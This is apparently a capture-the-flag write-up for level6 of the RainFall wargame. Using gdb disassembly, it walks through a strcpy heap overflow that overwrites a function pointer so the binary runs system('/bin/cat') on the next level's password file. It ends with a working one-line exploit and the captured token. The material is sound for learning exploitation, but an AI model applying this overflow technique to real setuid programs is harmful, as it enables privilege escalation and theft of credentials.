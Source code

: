 # level6

## Hint

When we log into the machine as `level6`, we notice a binary:

```shell-session
level6@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 level7 users 5274 Mar  6  2016 level6
```

We notice that the `guid` bit is set, so the executable gets the rights of its group owners granted when it is executed, and conveniently enough the group in question is our target for the current level.

That being said, it seems we need to look into the binary in order to try to understand what input it's awaiting.

The program is crashing (Segmentation Fault) when we try to run it.

```shell-session
level6@RainFall:~$ ./level6
Segmentation fault (core dumped)
```

And if we pass an argument to it, it shows:

```shell-session
level6@RainFall:~$ ./level6 test
Nope
```

Ok let's dig a bit with gdb.

## gdb

Let's see the functions first:

```gdb
gdb-peda$ info function
All defined functions:

Non-debugging symbols:
0x080482f4  _init
0x08048340  strcpy
0x08048340  strcpy@plt
0x08048350  malloc
0x08048350  malloc@plt
0x08048360  puts
0x08048360  puts@plt
0x08048370  system
0x08048370  system@plt
0x08048380  __gmon_start__
0x08048380  __gmon_start__@plt
0x08048390  __libc_start_main
0x08048390  __libc_start_main@plt
0x080483a0  _start
0x080483d0  __do_global_dtors_aux
0x08048430  frame_dummy
0x08048454  n                                               <-- Function `n`
0x08048468  m                                               <-- Function `m`
0x0804847c  main                                            <-- Function `main`
0x080484e0  __libc_csu_init
0x08048550  __libc_csu_fini
0x08048552  __i686.get_pc_thunk.bx
0x08048560  __do_global_ctors_aux
0x0804858c  _fini
```

Let's disas `main`

```gdb
gdb-peda$ disas main
Dump of assembler code for function main:
   0x0804847c <+0>:	push   ebp
   0x0804847d <+1>:	mov    ebp,esp
   0x0804847f <+3>:	and    esp,0xfffffff0
   0x08048482 <+6>:	sub    esp,0x20                        <-- Space of 32 bytes allocated for the stack frame
   0x08048485 <+9>:	mov    DWORD PTR [esp],0x40            <-- Set 64 as 1st argument to malloc()
   0x0804848c <+16>:	call   0x8048350 <malloc@plt>          <-- Call malloc(64)
   0x08048491 <+21>:	mov    DWORD PTR [esp+0x1c],eax        <-- Store the return value of malloc() to char *a
   0x08048495 <+25>:	mov    DWORD PTR [esp],0x4             <-- Set 4 as 1st argument to malloc()
   0x0804849c <+32>:	call   0x8048350 <malloc@plt>          <-- Call malloc(4)
   0x080484a1 <+37>:	mov    DWORD PTR [esp+0x18],eax        <-- Store the return value of malloc() to f *b
   0x080484a5 <+41>:	mov    edx,0x8048468		               <-- Address of function m(), as seen in previous codeblock
   0x080484aa <+46>:	mov    eax,DWORD PTR [esp+0x18]        <-- Load the address of f *b
   0x080484ae <+50>:	mov    DWORD PTR [eax],edx             <-- Store the address of function m() to f *b
   0x080484b0 <+52>:	mov    eax,DWORD PTR [ebp+0xc]         <-- Load the address of char *argv[]
   0x080484b3 <+55>:	add    eax,0x4                         <-- Add 4 to the address of char *argv[]
   0x080484b6 <+58>:	mov    eax,DWORD PTR [eax]             <-- Load the address of char *argv[1]
   0x080484b8 <+60>:	mov    edx,eax
   0x080484ba <+62>:	mov    eax,DWORD PTR [esp+0x1c]        <-- Load the address of char *a
   0x080484be <+66>:	mov    DWORD PTR [esp+0x4],edx         <-- Set the addres of char *argv[1] to the 2nd argument of strcpy()
   0x080484c2 <+70>:	mov    DWORD PTR [esp],eax             <-- Set the address of char *a to the 1st argument of strcpy()
   0x080484c5 <+73>:	call   0x8048340 <strcpy@plt>          <-- Call strcpy(a, argv[1])
   0x080484ca <+78>:	mov    eax,DWORD PTR [esp+0x18]        <-- Load the address of f *b
   0x080484ce <+82>:	mov    eax,DWORD PTR [eax]             <-- Load the address of m inside f *b
   0x080484d0 <+84>:	call   eax                             <-- Call (**b)();
   0x080484d2 <+86>:	leave
   0x080484d3 <+87>:	ret
End of assembler dump.
```

We can see that `m` and `n` are not called in the function `main` directly.

Let's disas `m`

```gdb
gdb-peda$ disas m
Dump of assembler code for function m:
   0x08048468 <+0>:	push   ebp
   0x08048469 <+1>:	mov    ebp,esp
   0x0804846b <+3>:	sub    esp,0x18                        <-- Space of 24 bytes allocated for the stack frame
   0x0804846e <+6>:	mov    DWORD PTR [esp],0x80485d1       <-- Set "Nope" as 1st argument to puts()
   0x08048475 <+13>:	call   0x8048360 <puts@plt>            <-- Call puts("Nope")
   0x0804847a <+18>:	leave
   0x0804847b <+19>:	ret
End of assembler dump.
```

And `n`

```gdb
gdb-peda$ disas n
Dump of assembler code for function n:
   0x08048454 <+0>:	push   ebp
   0x08048455 <+1>:	mov    ebp,esp
   0x08048457 <+3>:	sub    esp,0x18                        <-- Space of 24 bytes allocated for the stack frame
   0x0804845a <+6>:	mov    DWORD PTR [esp],0x80485b0       <-- Set "/bin/cat /home/user/level7/.pass" as 1st argument to system()
   0x08048461 <+13>:	call   0x8048370 <system@plt>          <-- Call system("/bin/cat /home/user/level7/.pass")
   0x08048466 <+18>:	leave
   0x08048467 <+19>:	ret
End of assembler dump.
```

Ok so we have our system() call here.

```gdb
gdb-peda$ x/s 0x80485b0
0x80485b0:	 "/bin/cat /home/user/level7/.pass"
```

Which runs the command to get the pass to level7.

## Vulnerability

It's quite obvious when ready the man for `strcpy` that there is a blatant vulnerability with using it: the fact that it does not check for the size of the buffer and instead looks for a `\0` character in order to stop the copy.

This allows us to inject a generated pattern from our favourite [website](https://wiremask.eu/tools/buffer-overflow-pattern-generator/?) in order to find the size of the buffer and continue with the exploit.

By feeding the following pattern and checking the address at which the program crashed, the generatof can deduce the size of the buffer:

```gdb
Invalid $PC address: 0x41346341
[------------------------------------stack-------------------------------------]
0000| 0xbffffb5c --> 0x80484d2 (<main+86>:	leave)
0004| 0xbffffb60 --> 0x804a008 ("Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag")
0008| 0xbffffb64 --> 0xbffffd5b ("Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag")
0012| 0xbffffb68 --> 0xb7fd0ff4 --> 0x1a4d7c
0016| 0xbffffb6c --> 0xb7e5ee55 (<__cxa_atexit+53>:	add    esp,0x18)
0020| 0xbffffb70 --> 0xb7fed280 (push   ebp)
0024| 0xbffffb74 --> 0x0
0028| 0xbffffb78 --> 0x804a050 ("Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x41346341 in ?? ()
```

![](Ressources/pattern_gen.png)

We now have the size of the buffer: `72` !

All we have left to do, is overwrite the address of `m()` with the address of `n()` in the function pointer called at the end of the main function.

Just as a refresher, the functions' addresses:

```gdb
[...]
0x08048454  n                          <-- Function `n` address
0x08048468  m                          <-- Function `m` address
0x0804847c  main                       <-- Function `main` address
[...]
```

As always, we should keep in mind the endianess of the machine and write the address of `n()` in reverse so stick with the execution flow of the program.

# Exploit

```shell-session
level6@RainFall:~$ ./level6 $(python -c 'print "B"*72 + "\x54\x84\x04\x08"')
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```
